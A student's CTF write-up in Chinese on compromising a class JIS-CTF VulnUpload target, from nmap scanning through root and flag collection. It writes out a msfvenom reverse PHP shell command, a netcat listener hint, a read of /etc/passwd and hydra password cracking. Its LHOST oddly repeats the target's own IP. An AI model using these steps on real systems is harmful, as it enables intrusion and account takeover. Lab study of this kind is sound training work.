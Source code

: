 

### 攻擊主機：Kali_Linux_2019.3 
### 靶機：JIS-CTF-VulnUpload-CTF01
> 這個靶機跟網路上的不太一樣，因為教授改過內容才給我們打。</br>
> ※教授說他忘了放第五支旗

#### 搜尋靶機IP
> **Kali>** <code>arp-scan -l</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e53f9a10-cfff-4cc6-8ea3-7891432dcc6c)</br>
💡：去掉頭跟尾(IP)，確定靶機為 192.168.203.129


#### 弱點掃描
> 使用nmap進行弱掃
**Kali>** <code>nmap -v -sS -O -A -p- 192.168.203.129</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/6ced9f28-af7e-4be8-bbe9-12c976a83bc6)</br>
💡得知有開啟22port和80port

#### 先看看http://192.168.203.129
> 意外發現第四支旗
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1b4aea6e-8720-47a5-a6ab-4ba0bb10bb08) <br/>
> (在Inspect Element中)<br/>
> 解碼之後：<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/90dd9069-88ed-4e84-bb42-b2909b14955f)<br/>
```js
    There is a vuln of upload service on the next page after you log in. Please find the php-reverse-shell.php under /usr/share/webshells/php in kali linux. In order to get the reverse session from target, run nc -lvnp port#. Edit the "CHANGE THIS" in the  php-reverse-shell.php and then upload it :10 points
```
> 這個線索告訴我接下來要用反向工程，但我先把1~3支旗找回來<br/>

#### 使用dirb嘗試看看<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/378d385b-8ddc-4073-9f80-a24841b581d4)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/954f81f4-387a-4f15-aa83-fdcdeba341ba)<br/>
> 在 http://192.168.203.129/flag 找到第一支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3029e6e9-a3a2-4390-91ad-1f08fa929ecd)<br/>
```js
    This is a Jimmy's Cyber Class:10 points
```
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/dd47bca4-4bc2-4d34-963a-36900ca3a86b)<br/>
> 並在admin_area中找到第二支旗，還附了admin的帳密<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/b017c504-588b-4e7c-ae12-8f6d97677872)<br/>
```js
    You might have great time in this security class:10 points
```
> 在CSS中找到hint檔案，找到第三支旗<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/eaed5634-4316-43a6-9f16-86afdf364032)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e5449597-ff8a-4b4e-a411-86f6ff4b8ead)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3577cf9d-dbc5-4caa-87d0-714a526f7033) <br/>
```js
    Of course you know password crack is illegal:10 points
``` 

#### 進入靶機<br/>
> 使用第二支旗給的帳密<br/>
> 在 http://192.168.203.129/login.php (第四支旗的網頁)進入了可以上傳資料的網頁<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/0c9b6c6b-30d9-4b56-a8dc-dd2da4c0fc21)<br/>
> **使用反向工程**<br/>
> 在我好找的地方養一隻可愛的彩虹小馬<br/>
> <code>msfvenom -p php/reverse_php LHOST=192.168.203.129 LPORT=1234 -f raw > shell.php</code><br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/acba887e-1c5f-4741-a252-9417579f4156)<br/>
> 把他上傳<br/>
> 在掃80port的時候注意到有個upload_files，感覺可以讓靶機開我的檔案<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/9beecb0f-a4a7-484b-a481-dad0820cdc88)<br/>
> 在upload_files開啟我的檔案，成功進入靶機<br/>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1c487e45-5815-4a4c-9833-749ba16edfea)<br/>
> 我這時候只有www-data的權限，做不了甚麼但可以查看使用者<br/>
> <code>Cat /etc/passwd</code><br/>
> 有兩個使用者，Jimmy和technawi可以做密碼破解-->使用hydra<br/>
> 發現Jimmy比較容易破出來<br/>
> 使用Jimmy進行登入<br/>
> 發現bash無法下sudo，故先下bash指令<br/>
> **$** <code>su jimmy</code><br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/022276e4-2ed8-40bd-96b1-0c7f8bdf3df3) <br/>
> 成功變成能下sudo的bash
#### 提權成root
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5589079d-8bfc-476d-8866-874dfbcf173b) </br>
> 成功😄

#### 找漏網之旗
> 在Home資料夾下看到了technawi和.jimmy兩個使用者資料夾</br>
> 在technawi中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有flag.txt和.credentials.txt</br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/c6272d81-d77c-4d3e-bb62-bb1445a703e3)</br>
> 得到第六支旗和第七支旗</br>
```js
    Great! But you need to find other account to execute sudo:15 points
[jimmy] is the account you need to hydra:15 points
``` 

> 在.jimmy中看到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有jimmy.txt</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5c5a9bf1-518a-4ad8-b9b3-d98345ac2c96)</br>
> 得到了第八支旗</br>
```js
   As what we always said: Please protect yourself with these hacking skill:20 points
``` 

> 到root下看看有什麼</br>
> 在Desktop找到了Jun 5建立(教授放檔案進去的日期，看到這個日期都很可疑)的檔案有finish.txt和youseeme.jpg兩個檔案</br>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/7606dc42-08ec-434c-895b-7a522ab874f4)</br>
> 在finish.txt得到第九支旗</br>
```js
    Good JOB! You finished this CTF! Please protect yourself with these hacking skill:20 points
```

![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/896bd863-2f96-4fda-beb7-ba12e9d5f3d7)</br>
> 在youseeme.jpg得到第十支旗</br>
```js
    Look forward to seeing you again, and hope what I shared can help you ^_^ :20 points
```

#### ※補充：教授提供第十支旗的正確解法
> hexdump -C youseeme.jpg |more</br>
![Uploading image.png…]()</br>







